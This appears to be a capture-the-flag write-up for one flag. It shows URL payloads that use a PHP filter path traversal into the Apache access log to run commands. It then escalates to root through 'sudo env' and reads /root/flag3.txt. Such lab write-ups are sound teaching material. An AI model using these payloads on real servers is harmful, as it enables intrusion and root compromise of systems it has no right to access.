



[< Back](../../README.md)

(I actually found this flag before flag2)

By using the RCE `cmd` query payload technique, we can try to see what the current user can do using sudo

```
view-source:http://[IP]/
  ?end=
  &view=
    php://filter/resource=teks/../../../../var/log/apache2/access.log
  &cmd=sudo+-l
```
<p></p>

We can use `sudo env`, this is very interesting, we have a pretty easy privilege escalation. Let's check `/root`'s content

```
[...]
  &cmd=sudo+/usr/bin/env+/bin/bash+-c+'ls+-la+/root'
```
<p></p>

And here is the flag.

```
[...]
  &cmd=sudo+/usr/bin/env+/bin/bash+-c+'cat+/root/flag3.txt'
```
<p></p>
